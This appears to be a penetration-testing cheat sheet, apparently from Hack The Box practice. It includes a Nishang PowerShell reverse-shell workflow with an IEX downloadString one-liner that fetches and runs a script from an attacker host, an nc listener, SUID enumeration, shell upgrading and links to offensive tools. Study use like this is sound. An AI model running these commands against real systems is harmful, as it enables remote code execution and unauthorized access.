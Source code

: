 #### Tools & Techniques


# Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


# Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
# to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


# Windows
# to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

# Tools
# Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

# Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

# Other tools
readpst,mdb-shell,mdb-sql

# Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
Linux enumerarion help:  https://www.rebootuser.com/?p=1623#.V5QOe7grKUl



